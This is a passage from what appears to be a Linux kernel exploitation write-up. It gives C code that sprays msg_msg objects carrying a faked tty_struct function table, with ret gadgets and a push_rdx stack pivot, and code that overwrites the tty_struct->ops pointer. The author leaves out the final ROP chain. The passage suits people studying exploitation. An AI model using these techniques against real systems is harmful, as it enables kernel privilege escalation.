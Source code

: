 ```c
        // If i == 5, we're on the shutdown() handler, set to ret gadget
        if (i == 5) { *func_table++ = ret; continue; }

        // If i == 6, we're on the cleanup() handler, set to ret gadget
        if (i == 6) { *func_table++ = ret; continue; }

        // Magic value for debugging
        *func_table++ = 0xdeadbeefdeadbe00 + i;
    }

    // Put our gadget address as the ioctl() handler to pivot stack
    *func_table = push_rdx;

    // Spray msg_msg's on the heap
    if (msgsnd(curr_q, &msg, MSG_SZ, IPC_NOWAIT) == -1) {
        fails++;
    }

    return fails;
}
```

I got a bit wordy with the comments in this block, but it's for good reason. I didn't want the exploit to ruin the kernel state, I wanted to exit cleanly. This presented a problem as we are completely hi-jacking the `ops` function table which the kernel will use to cleanup our `tty_struct`. So I found a gadget that simply performs a `ret` operation, and overwrote the function pointers for `close()`, `shutdown()`, and `cleanup()` so that when they are invoked, they simply return and the kernel is apparently fine with this and doesn't panic. 

So our message body looks something like:
<----ROP----Faked Function Table---->

Here is the code I used to overwrite the `tty_struct->ops` pointer:

```c
void overwrite_ops(int fd) {
    unsigned char g_buf[GBUF_SZ] = { 0 };
    ssize_t bytes_read = read(fd, g_buf, GBUF_SZ);
    if (bytes_read != (ssize_t)GBUF_SZ) {
        err("Failed to read enough bytes from fd: %d", fd);
    }

    // Overwrite the tty_struct->ops pointer with ROP address
    *(uint64_t *)&g_buf[24] = fake_table;
    ssize_t bytes_written = write(fd, g_buf, GBUF_SZ);
    if (bytes_written != (ssize_t)GBUF_SZ) {
        err("Failed to write enough bytes to fd: %d", fd);
    }
}
```

So now that we know where our ROP chain is, and where our faked function table is, and we have the perfect stack pivot gadget, the rest of this process is simply building a real ROP chain which I will leave out of this post. 
